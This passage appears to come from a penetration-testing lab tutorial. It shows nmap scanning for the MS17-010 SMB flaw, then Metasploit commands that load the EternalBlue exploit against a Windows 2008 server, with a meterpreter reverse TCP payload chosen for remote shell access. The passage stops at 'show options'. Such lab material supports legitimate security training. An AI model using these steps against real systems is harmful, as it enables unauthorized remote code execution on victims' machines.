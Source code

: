 2.2 Analyze the scan results. Look for open ports and services that may be vulnerable.  
For example, if port 445 (SMB) is open, it might be vulnerable to the EternalBlue exploit.

![Nmap results](image-4.png)


2.3 Alternatively, there are a number of nmap scripts that can explicitly find vulnerabilities associated with the open ports.
```bash
nmap --script smb-vuln-ms17-010 -v <Windows_IP>
```

![Vulnerable Results on Windows 2008 server](image-13.png)

---

### 🧠 Step 3: Exploiting the Vulnerability

**Objective:** Exploit the identified vulnerability using Metasploit.

**Steps:**

3.1 Launch Metasploit on Kali Linux.  
```bash
msfconsole
```

![Metasploit Console](image-5.png)


3.2 Search for an exploit related to the vulnerability.  
```bash
search eternalblue
```

![Eternalblue Search Results](image-8.png)

3.3 Select the appropriate exploit.  
```bash
use exploit/windows/smb/ms17_010_eternalblue
```

![Eternalblue Command](image-9.png)

![Result](image-10.png)

  >**_NOTE:_** The EternalBlue exploit is a well-known vulnerability in the SMB protocol that was used in the WannaCry ransomware attack. It allows remote code execution on vulnerable Windows systems. To run the exploit there are many options. Type in **options** to see the options available. The most important ones are **RHOST** (the target IP address) and **LHOST** (the attacker's IP address). You can also set the payload to be used with the exploit. In this case, we will use **windows/x64/meterpreter/reverse_tcp** as the payload.

3.5 Look at the options available for the exploit.  
```bash
show options
``` 
